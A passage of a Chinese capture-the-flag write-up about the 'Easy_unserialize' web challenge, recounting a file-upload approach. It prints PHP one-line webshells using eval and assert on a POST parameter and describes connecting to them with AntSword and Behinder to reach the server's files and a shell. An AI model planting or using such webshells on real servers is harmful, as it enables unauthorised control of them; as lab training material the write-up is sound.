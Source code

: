 ![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcZecDEVsHKt6MQicfU9MaQL2tiafVqcHmPdeXjoCickfOIt5lQo4ENg9Gw/640?wx_fmt=png)

其中，upload 上传文件, view 查看已上传的图片。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9Cc3xrOrv4MM3dAMHGu7aSTlaSnCEjiaQtGk25KppNH1Uyrz8ibMzwcdNPA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcwFGvgbNpwY7E6xPGf42jSPPFSoWcnkdx39Xgu47kA67UdwSzDf4klg/640?wx_fmt=png)

上传文件代码如下：

```
<form action="upload.php" method="post" accept-charset="utf-8" enctype="multipart/form-data">    <label ></form>
```

二. 作者解题思路及总结
============

这道题目有点遗憾没有完成，题目虽然叫 “Easy_unserialize”，但我的第一想法是文件上传漏洞，也尝试了很多方法都未成功。下面我将分别从我的解题思路和 WP 思路进行讲解，希望对您有所帮助~

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcqNwghwgbwZ8LdSwLQ6lhAhfAH85kHiakBbb4Bw9Hj1S1WW4NmACLfxA/640?wx_fmt=png)

1. 一句话和冰蝎蚁剑
-----------

(1) “一句话木马” 服务端  
服务端一句话是指本地存储的脚本木马文件，是我们要用来将恶意代码上传到服务器网站中执行权限。该语句触发后，接收入侵者通过客户端提交的数据，执行并完成相应的操作。PHP 常用一句话木马的代码如下：

```
//http://localhost/easy_unserialize/ma01.php<?php eval($_POST[whuctf]); ?>//http://localhost/easy_unserialize/ma02.php<?php assert($_POST[whuctf]); ?>
```

(2) 中国蚁剑反弹 shell  
通过中国蚁剑连接 “ma01.php” 文件，其代码为一句话木马“<?php eval($_POST[whuctf]); ?>”；然后再蚁剑空白处右键“添加”，设置 URL 地址及连接密码“whuctf”。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CclaYcDnCT0GcBcCyIhSasEcmEJmMDQPGFugW2D3EmpZh4SsRCOcefFw/640?wx_fmt=png)

连接成功后成功获取目标网站的服务器文件目录，如下图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9Ccq9EDMmGY7ZZIAgUDS9XIzyqs8ZjQVziabeUbEnDbaL0icbAt3l74TfIw/640?wx_fmt=png)

(3) 冰蝎反弹 shell  
冰蝎作为新款的 webshell 连接工具，使用效果非常好。其基本使用方法如下图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcntIa6iaibCQ5qVJ0icfTHb9LBCRaYF2QAUFqKoa30E0wu5jOfzzGHDWjQ/640?wx_fmt=png)

连接 URL 和密码并反弹 shell。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcQyrGaVujRXlKycP2jTkckcsuqic50eT4VDbxdV51nlGbGqy7AzDKOrQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CceDEXiaGNyOz4coRMpYTwakDGs9NDiadFkVRfIXtUVTxb9NWptng3XDUA/640?wx_fmt=png)

下载地址：
